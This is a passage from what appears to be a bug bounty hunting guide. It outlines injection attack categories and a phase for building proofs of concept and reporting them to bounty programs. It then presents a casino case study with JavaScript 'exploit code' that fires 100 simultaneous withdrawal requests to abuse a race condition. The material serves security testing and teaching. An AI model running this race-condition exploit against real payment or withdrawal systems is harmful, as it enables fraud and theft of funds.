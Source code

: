 ```

4. Injection Attacks (Day 5)
   - SQL injection
   - XSS
   - SSRF
   - Template injection
```

---

### Phase 3: Exploitation & Documentation (Days 6-7)

```
1. Develop working POCs
2. Calculate business impact
3. Document thoroughly:
   - Steps to reproduce
   - Screenshots/videos
   - CVSS score
   - Remediation advice
4. Submit to bug bounty program
```

---

## 🎯 Real-World Case Studies

### Case Study 1: $50,000 Casino Hack

**Target:** Large online casino  
**Vulnerability:** Race condition in withdrawal processing  
**Impact:** Could withdraw unlimited funds

**Technical Details:**
```javascript
// Exploit code
async function exploit() {
  const balance = 1000;
  const promises = [];
  
  // Send 100 withdrawal requests simultaneously
  for(let i = 0; i < 100; i++) {
    promises.push(
      fetch('/api/withdraw', {
        method: 'POST',
        body: JSON.stringify({
          amount: balance
        })
      })
    );
  }
  
  await Promise.all(promises);
  // All requests processed before balance update
  // Withdrew $100,000 with only $1,000 balance!
}
```
